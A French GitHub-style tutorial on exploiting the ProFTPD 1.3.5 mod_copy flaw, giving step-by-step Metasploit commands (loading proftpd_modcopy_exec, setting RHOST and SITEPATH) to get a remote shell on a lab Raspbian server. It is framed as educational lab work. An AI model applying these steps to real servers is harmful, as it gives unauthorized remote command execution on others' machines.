 # hack_proftpd1.3.5
Piratage d'un serveur Linux en exploitant le serveur FTP (Proftpd)

La vulnérabilité dans le module mod_copy de Proftpd a été révélée il y a quelques mois. La plupart des serveurs utilisant Proftp sont toujours vulnérables aux attaques car ils utilisent des versions plus anciennes du logiciel. Si vous utilisez Proftpd version 1.3.5 ou antérieure, votre serveur est vulnérable et ce n'est qu'une question de temps avant que quelqu'un ne profite de cette vulnérabilité. J'ai donc pensé faire un repo sur la même chose, en montrant à quel point la situation est facile et terrifiante.

# Quel serveur est concerné par cette faille

Tout serveur Linux fonctionnant avec la version Proftp < 1.3.5 est vulnérable.

# Comment cela fonctionne-t-il ?

Mod_copy est un module pour le serveur Proftp, qui implémente les commandes "SITE CPFR" & "SITE CPTO", grâce auxquelles l'utilisateur peut se déplacer dans les fichiers ou les dossiers du serveur. C'est-à-dire que, normalement, si vous voulez copier un fichier d'un endroit du serveur à un autre en utilisant le FTP, vous devez le transférer au système local, puis le télécharger à l'emplacement cible dans le serveur. Mais, grâce à mod_copy, vous pouvez simplement le transférer sans avoir à le télécharger sur votre système local.

Il existe une vulnérabilité dans le logiciel qui permet à tout utilisateur "NON AUTHENTIFIÉ" d'utiliser les commandes ci-dessus pour copier les fichiers. C'est exact, n'importe quel utilisateur.

# Quel est l'impact, si quelqu'un l'exploite ?

En fait, ils pourraient avoir un shell dans votre serveur, ce qui est plus que suffisant pour faire des choses sérieuses.
En fait, je vais vous montrer comment vous pouvez exploiter cette vulnérabilité en utilisant metasploit.
Oui, c'est vrai ! Quelqu'un a écrit un exploit pour cette vulnérabilité et ça marche comme sur des roulettes

# Essayons ça !

Essayons d'exploiter cette vulnérabilité en utilisant métasploit et voyons si nous y parvenons.

# VEUILLEZ NOTER QUE CECI EST UNIQUEMENT À DES FINS ÉDUCATIVES, ESSAYEZ-LE SUR DES APPAREILS QUE VOUS AVEZ AUTORISÉS ET JE NE SERAI PAS RESPONSABLE DE VOS ACTIONS.

Je suppose que vous avez metasploit tout prêt pour l'action, sautons directement dans le vif du sujet. 

Voici ma mise en place : J'ai un serveur raspbian et Kali Linux (ma machine hôte) est l'attaquant.

# Étape 1 : Téléchargez l'exploit dans votre ordinateur.

Pour cela, ouvrez un terminal en tant que root et téléchargez l'exploit à partir d'[ICI](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb)

Copiez-le dans le dossier des exploits.

cp proftpd_modcopy_exec.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/

# Étape 2 : Ouvrez msfconsole.

Pour cela, ouvrez un Terminal ( comme root ) et tapez "msfconsole".

![screen msfconsole](https://zupimages.net/up/20/51/ini9.png)

# Étape 3 : Une fois que le métasploit est chargé, utilisez la commande suivante pour charger l'exploit

use exploit/unix/ftp/proftpd_modcopy_exec

Ensuite, nous devons définir l'hôte distant (serveur victime)

set RHOST 192.168.1.22

set SITEPATH /var/www/html

![screen msfconsole](https://zupimages.net/up/20/51/oq4i.png)

Vous pouvez toujours taper "show options" pour voir toutes les options que vous devez définir. Ici, RHOST est le serveur distant que nous essayons d'exploiter. Le "SITEPATH" est la racine du document pour le serveur web. Une fois que vous êtes prêt, tapez "exploit" et appuyez sur entrée. C'est tout.

Vous devriez maintenant avoir une session ouverte depuis le serveur distant où vous pouvez exécuter n'importe quelle commande.

